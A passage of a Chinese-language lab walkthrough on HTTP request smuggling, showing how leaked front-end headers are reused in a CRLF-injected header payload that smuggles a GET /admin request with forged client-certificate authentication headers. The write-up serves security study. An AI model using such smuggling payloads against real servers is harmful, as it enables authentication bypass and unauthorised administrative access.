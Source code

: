 [![](assets/1705287960-76ffba4d44d3c5f8e4a6e3f06f6928a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104952-1800ff70-b02c-1.png)  
在请求的Body中将任意字符附加到原始搜索参数，直到请求长度超过走私的Content-Length头，发送请求就可以看到响应中出现了前端服务器附加到我们请求的标头信息

```plain
Content-Length: 840
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 2244638774928226
```

[![](assets/1705287960-eb67bdb4b735f702edad26c9961b95f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105012-23d74c00-b02c-1.png)  
随后将请求方法改为HEAD并更改头部信息，在其中插入请求路径这样它就可以走私对admin面板的请求，包括三个客户端身份验证头，确保按如下方式更新它们的值

```plain
#Name
foo: bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 2244638774928226\r\n
\r\n

#Value
xyz
```
